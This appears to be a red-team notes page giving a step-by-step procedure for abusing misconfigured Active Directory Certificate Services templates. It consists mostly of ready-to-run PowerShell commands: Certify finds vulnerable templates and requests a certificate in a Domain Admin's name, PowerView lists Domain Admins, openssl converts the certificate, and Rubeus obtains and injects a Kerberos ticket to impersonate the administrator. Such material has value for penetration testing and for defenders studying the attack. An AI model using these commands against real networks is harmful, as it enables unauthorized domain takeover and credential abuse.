 ```yaml
---
title: Attacking Active Directory Certificate Services
tags:
  - breach
  - operations
  - attack
  - active
  - directory
  - certificates
  - services
  - service
  - certificate
---
```


A majority of the discussion in this section references
[a SpecterOps](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf)
paper on abusing Active Directory Certificate Services (ADCS).

## Misconfigured certificate templates

We can use the [Certify](https://github.com/GhostPack/Certify) toolkit to
identify vulnerable certificate templates by invoking the following:

```powershell
Start-Process `
	-FilePath ".\Certify.exe" `
	-ArgumentList @(
		"find",
		"/vulnerable"
	)
```

If we identify a vulnerable certificate template that enables low-privileged
users to enroll certificates with an alternative subject name and that allow
user login, we can use
[PowerSploit's PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
tool to identify Domain Administrators by invoking the following:

```powershell
. .\PowerView.ps1
Get-DomainGroupMember -Identity 'Domain Admins'
```

Finding a valid Domain Admin, we can use the **Certify** toolkit again to enroll
a certificate:

```powershell
Start-Process `
	-FilePath ".\Certify.exe" `
	-ArgumentList @(
		"request",
		"/ca:${DOMAIN}\${DOMAIN_CONTROLLER}",
		"/template:${TEMPLATE_NAME}",
		"/altname:${DOMAIN_ADMIN_USERNAME}"
	)
```

After successfully enrolling a certificate, a certificate will be printed to
`stdout` starting with `-----BEGIN RSA PRIVATE KEY-----`. Write all of the
contents of the certificate to a `.pem` file so we can operate on it. Using
**openssl**, we can convert the certificate to a `.pfx` file:

```powershell
Start-Process `
	-FilePath "openssl" `
	-ArgumentList @(
		"pkcs12",
		"-in",
		"${PEM_FILE}",
		"-keyex",
		"-CSP",
		"'Microsoft Enhanced Cryptographic Provider v1.0'",
		"-export",
		"-out",
		"${OUTFILE}.pfx"
	)
```

With our new `.pfx` certificate in hand, we can use
[Rubeus](https://github.com/GhostPack/Rubeus) to request a **Ticket Granting
Ticket (TGT)** by invoking the following, injecting the TGT into our user's
memory:

```powershell
Start-Process `
	-FilePath ".\Rubeus.exe" `
	-ArgumentList @(
		"asktgt",
		"/user:${DOMAIN_ADMIN_USERNAME}",
		"/certificate:${OUTFILE}.pfx",
		"/password:${CERTIFICATE_PASSWORD}",
		"/ptt"
	)
```
